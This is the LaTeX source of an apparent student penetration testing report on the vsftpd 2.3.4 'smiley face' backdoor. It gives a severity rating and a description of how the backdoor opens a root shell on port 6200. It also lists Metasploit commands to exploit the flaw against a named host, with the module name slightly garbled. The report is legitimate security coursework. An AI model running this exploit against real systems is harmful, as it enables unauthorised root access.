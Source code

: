 \documentclass[notitlepage]{article}
\begin{document}
  
\title{Penetration Testing - Exercise 6}
\author{Esteban Calvo}
\date{\isodate\today}

\maketitle

\tableofcontents

\newpage

\section{Technical Report}



  \subsection{Finding: \emph{vsftdp Smiley Face Backdoor}}
  
	\subsubsection*{Severity Rating}
		High Risk Factor
	   	
		\cvss(N,L,N,N,U,H,H,H,8.8)
		
  	\subsubsection*{Vulnerability Description}
  		The vulnerability discovered in this section is known as the vsftpd smiley face backdoor specific to
        certain versions of vsftpd running on the host network. If a user attempts to login with a username containing a smiley
        face :), a backdoor is triggered and the host shell begins to listen on TCP port 6200. Any user that logs in
        with this in their username now possibly has root level access and can look at files, run code, and delete files.

  	\subsubsection*{Confirmation method}
  	    To run the exploit, start up the Metasploit framework and run the following commands in the kali command line:
        \begin{verbatim}
            sudo msfdb init
            msfconsole
            use exploit/unix/ftp/vsftpd 234 backdoor
            set RHOST ns.artstailor.com
            exploit
        \end{verbatim}
\end{document}

